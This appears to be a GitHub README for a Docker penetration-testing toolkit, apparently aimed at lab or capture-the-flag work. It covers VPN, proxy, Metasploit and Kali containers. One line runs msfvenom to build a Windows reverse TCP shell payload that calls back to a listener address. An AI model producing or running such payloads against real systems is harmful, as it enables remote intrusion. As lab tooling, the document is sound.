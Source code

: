 ## Building

```
docker pull alpine
docker build -t antfie/haksys .
```

## Running 

## VPN

```
docker run -it --rm -v $PWD/antfie.ovpn:/app/vpn --cap-add=NET_ADMIN --device /dev/net/tun --name vpn -p 9000-9100:9000-9100 --sysctl net.ipv6.conf.all.disable_ipv6=0 --entrypoint openvpn antfie/haksys vpn
```

## SOCKS5 Proxy (For Burp)

```
docker run --rm -it --network=container:vpn --name proxy --entrypoint ssh-proxy antfie/haksys
```

## Host

```
docker run --rm -it --network=container:vpn -v $PWD:/app antfie/haksys
```

to mount stuff e.g. NFS share add this param `--cap-add SYS_ADMIN`

## Other Tools


### Metasploit

```
docker pull metasploitframework/metasploit-framework
docker run --rm -it --network=container:vpn -v $PWD:/app metasploitframework/metasploit-framework
```

#### MSF Venom

```
docker run --rm -it --network=container:vpn -v $PWD:/app --entrypoint bash metasploitframework/metasploit-framework
/msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.32 LPORT=4189 -f csharp > /app/x
```

### Kali

```
docker pull kalilinux/kali-rolling
docker run --rm -it --network=container:vpn -v $PWD:/app kalilinux/kali-rolling
```

## Docker

Remove all containers and images

```
docker rm -f $(docker ps -a -q)
docker rmi $(docker images -q)
```
